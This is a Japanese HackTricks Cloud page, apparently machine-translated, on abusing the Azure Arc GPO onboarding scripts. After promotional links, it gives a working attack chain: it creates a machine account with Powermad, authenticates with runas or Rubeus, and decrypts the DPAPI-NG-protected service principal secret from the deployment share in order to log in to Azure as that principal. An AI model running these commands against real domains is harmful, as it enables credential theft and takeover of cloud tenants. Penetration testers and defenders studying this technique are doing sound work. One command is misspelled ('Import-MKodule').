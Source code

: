 # Az - Azure Arc 脆弱な GPO デプロイスクリプト

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>を使用して、ゼロからヒーローまでAWSハッキングを学びましょう！</summary>

HackTricks をサポートする他の方法:

- **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または [**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
- **ハッキングトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **githubリポジトリに提出してください。**

</details>

### 問題の特定

Azure Arc は、新しい内部サーバー（ドメインに参加したサーバー）を Azure Arc に統合するための Group Policy Object メソッドを提供します。これを容易にするために、Microsoft は、オンボーディング手順を開始するために必要な展開ツールキットを提供しています。ArcEnableServerGroupPolicy.zip ファイル内には、DeployGPO.ps1、EnableAzureArc.ps1、および AzureArcDeployment.psm1 というスクリプトが含まれています。

DeployGPO.ps1 スクリプトを実行すると、次のアクションが実行されます:

1. ローカルドメイン内に Azure Arc サーバーのオンボーディング GPO を作成します。
2. オンボーディングプロセス用に作成された指定されたネットワーク共有に EnableAzureArc.ps1 オンボーディングスクリプトと Windows インストーラーパッケージが含まれているコピーを作成します。

このスクリプトを実行する際、システム管理者は **ServicePrincipalId** と **ServicePrincipalClientSecret** の 2 つの主要なパラメータを提供する必要があります。さらに、ドメイン、共有をホストするサーバーの FQDN、共有名などの他のパラメータが必要です。テナント ID、リソースグループ、およびその他の必要な情報もスクリプトに提供する必要があります。

AzureArcDeploy ディレクトリ内に DPAPI-NG 暗号化を使用して暗号化されたシークレットが生成されます。暗号化されたシークレットは、encryptedServicePrincipalSecret というファイルに格納されます。この暗号化の証拠は、DeployGPO.ps1 スクリプト内で見つけることができ、$descriptor と $ServicePrincipalSecret を入力として ProtectBase64 を呼び出すことで暗号化が実行されます。ディスクリプタには、Domain Computer および Domain Controller グループの SID が含まれており、スクリプトコメントで指摘されているように、ServicePrincipalSecret は Domain Controllers および Domain Computers セキュリティグループによってのみ復号化できるようになっています。
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### 攻撃手法

以下の条件を満たしています：

1. 内部ネットワークに侵入に成功しました。
2. Active Directory内でコンピューターアカウントを作成したり、制御を取る能力を持っています。
3. AzureArcDeployディレクトリが含まれるネットワーク共有を発見しました。

AD環境内でマシンアカウントを取得するためのいくつかの方法があります。最も一般的な方法の1つは、マシンアカウントのクォータを悪用することです。別の方法としては、脆弱なACLやさまざまな他の誤った構成を通じてマシンアカウントを侵害する方法があります。
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
一度マシンアカウントが取得されると、このアカウントを使用して認証することが可能です。runas.exeコマンドをnetonlyフラグと共に使用するか、Rubeus.exeを使用してpass-the-ticketを行うことができます。
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
私たちのコンピューターアカウントのTGTがメモリに保存されている場合、次のスクリプトを使用してサービスプリンシパルシークレットを復号化できます。
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
また、[SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)を使用することもできます。

この時点で、encryptedServicePrincipalSecretファイルと同じネットワーク共有に保存されているArcInfo.jsonファイルから、Azureに接続するために必要な残りの情報を収集できます。このファイルには、TenantId、servicePrincipalClientId、ResourceGroupなどの詳細が含まれています。この情報を使用して、Azure CLIを使用して侵害されたサービス プリンシパルとして認証することができます。

## 参考文献

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
